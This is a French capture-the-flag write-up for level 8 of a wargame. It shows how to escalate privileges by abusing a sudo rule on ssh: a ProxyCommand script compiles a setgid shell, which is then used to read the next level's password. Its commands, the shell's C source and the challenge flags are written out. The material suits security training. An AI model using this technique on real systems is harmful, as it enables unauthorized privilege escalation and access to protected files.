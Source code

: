 # Write up : Wargames

### Level 8

Consigne :

```
Consignes lvl8 :<br>
Le but est d'exploiter le binaire visible via la commande 'sudo -l'.<p><br>

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge8@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion 

```bash
ssh -p 6666 challenge8@game1.marshack.fr
password: MARS{Cokc99wSsqhtmh7ZprKiE4Kym19ZuxZv}
```



Une élévation de privilège via ssh, très tricky mais efficace.

```
challenge8@be9f0e178887:~$ sudo -l

réponse:
L'utilisateur challenge8 peut utiliser les commandes suivantes sur ebeca72eddc8 :
    (challenge9) NOPASSWD: /usr/bin/ssh

```

Etapes :

- Création du fichier payloadSsh.sh dans le répertoire /tmp/test2/
- Création du fichier shell.c dans le répertoire /tmp/test2/
- Exécution de la commande sudo qui va générer le fichier shell suid 

```bash
challenge8@be9f0e178887:~$ mkdir /tmp/test2
challenge8@be9f0e178887:~$ chmod 777 /tmp/test2
challenge8@be9f0e178887:~$ cd /tmp/test2
challenge8@be9f0e178887:/tmp/test2$ echo -e '#!/bin/bash\ngcc /tmp/test2/shell.c -o /tmp/test2/shell\nchmod 2511 /tmp/test2/shell' > /tmp/test2/payloadSsh.sh
challenge8@be9f0e178887:/tmp/test2$ echo -e '#include <stdio.h>\n#include <string.h>\nint main(int argc, char* argv[]) {\n\tsetregid(getegid(), getuid());\n\tsystem("/bin/bash");\n}' > /tmp/test2/shell.c
challenge8@be9f0e178887:/tmp/test2$ chmod 777 -R /tmp/test2/{payloadSsh.sh,shell.c}
challenge8@be9f0e178887:/tmp/test2$ sudo -u challenge9 /usr/bin/ssh -o ProxyCommand="/tmp/test2/payloadSsh.sh" 127.0.0.1
```

```
réponse :
 ssh_exchange_identification: Connection closed by remote host
```



Aprés l'exécution des commandes bash, le binaire shell est suid 

```
challenge8@7051d181892c:/tmp/test2$ cd /tmp/test2
challenge8@7051d181892c:/tmp/test2$ ls -l

-rwxrwxrwx 1 challenge8 challenge8   83 févr.  6 12:59 payloadSsh.sh
-r-x--s--x 1 challenge9 challenge9 8720 févr.  6 12:59 shell
-rwxrwxrwx 1 challenge8 challenge8  130 févr.  6 12:59 shell.c

```

Exécuter le binaire et verifier l'id :

```
./shell

bash-4.3$ id 
  uid=1007(challenge8) gid=1008(challenge9) groupes=1007(challenge8)

```
Enfin allons lire le fichier demandé :

```bash
bash-4.3$ cat /etc/wargames_pass/level9/level9_password
MARS{9QujEQOSZFrRf2PAhHre9KbUFfvVeox1}

Résultat : MARS{9QujEQOSZFrRf2PAhHre9KbUFfvVeox1}
```